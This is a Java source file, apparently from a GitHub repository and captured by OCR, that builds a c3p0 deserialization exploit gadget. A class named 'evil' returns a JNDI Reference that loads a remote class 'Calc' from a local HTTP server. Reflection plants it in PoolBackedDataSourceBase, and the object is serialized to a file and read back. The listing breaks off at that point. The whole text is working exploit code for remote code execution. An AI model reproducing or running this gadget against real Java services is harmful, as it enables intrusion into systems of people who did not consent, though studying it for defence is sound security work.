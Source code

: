 ```java  
import java.sql.SQLException;    
import java.sql.SQLFeatureNotSupportedException;    
import java.util.logging.Logger;    
    
public class c3p0 {    
    public static class evil implements ConnectionPoolDataSource, Referenceable{    
        @Override    
        public Reference getReference() throws NamingException {    
            return new Reference(&#34;Calc&#34;,&#34;Calc&#34;,&#34;http://127.0.0.1:8088&#34;);    
        }    
    
        @Override    
        public PooledConnection getPooledConnection(String user, String password) throws SQLException {    
            return null;    
        }    
    
        @Override    
        public PooledConnection getPooledConnection() throws SQLException {    
            return null;    
        }    
    
        @Override    
        public PrintWriter getLogWriter() throws SQLException {    
            return null;    
        }    
    
        @Override    
        public void setLogWriter(PrintWriter out) throws SQLException {    
    
        }    
    
        @Override    
        public void setLoginTimeout(int seconds) throws SQLException {    
    
        }    
    
        @Override    
        public int getLoginTimeout() throws SQLException {    
            return 0;    
        }    
    
        @Override    
        public Logger getParentLogger() throws SQLFeatureNotSupportedException {    
            return null;    
        }    
    }    
    public static void main(String[] args) throws Exception{    
        PoolBackedDataSourceBase pds = new PoolBackedDataSourceBase(false);    
        Class cl = Class.forName(&#34;com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase&#34;);    
        Field connectionPoolDataSourceField = cl.getDeclaredField(&#34;connectionPoolDataSource&#34;);    
        connectionPoolDataSourceField.setAccessible(true);    
        connectionPoolDataSourceField.set(pds, new evil());    
    
        //ByteArrayOutputStream baos = new ByteArrayOutputStream();    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;./src/main/resources/calc.obj&#34;));    
        oos.writeObject(pds);    
    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(&#34;./src/main/resources/calc.obj&#34;));    
```